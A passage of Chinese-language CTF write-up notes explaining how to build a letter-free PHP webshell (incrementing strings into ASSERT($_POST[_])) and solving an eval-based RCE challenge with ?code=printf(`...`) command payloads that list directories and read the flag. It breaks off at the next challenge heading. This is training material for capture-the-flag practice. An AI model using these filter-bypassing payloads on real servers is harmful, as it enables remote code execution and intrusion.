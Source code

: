   ```php
  $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
  $____.=$__;
  $__=$_;
  $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
  $____.=$__;
  $_=$$____;
  $___($_[_]); // ASSERT($_POST[_]);
  ```

- 为什么偏偏构造 `ASSERT($_POST[_]);` ：payload 最短且操作空间最大，如果参数是函数容易被禁。

- ```php
  $_=[];
  $_=@"$_"; // $_='Array'; （1）
  $_=$_['!'=='@']; // $_=$_[0]; 即A （2）
  ```

  - （1）中 @ 为错误控制操作符，不要也可以。（1）不能省，必须有一个正式的转为字符串的过程，不然（2）中 $_ 的值将为空而不是 A 。

  - （2）中 `'!'=='@'` 部分可自由发挥。

- payload 必须 url 编码后传入才有效，在哪层就遵循哪层的规矩。

##### [UUCTF 2022 新生赛]ez_rce

[NSS](https://www.ctfer.vip/problem/3090)

###### 前置知识

printf 比 echo 好用：

```bash
echo(`ls`) #报错
echo `ls` #OK
printf(`ls`) #OK
printf `ls` #OK
```

###### 题解

- ?code=printf(\`dir /`);
  - ?code=printf \`dir /`; 是不行的，eval 不比 DOS 窗口，该包裹 () 的地方还是要包裹。
- ?code=printf(\`nl /fffffffffflagafag`);

##### [HNCTF 2022 Week1]Challenge__rce

[NSS](https://www.ctfer.vip/problem/2943)

###### 前置知识

1、
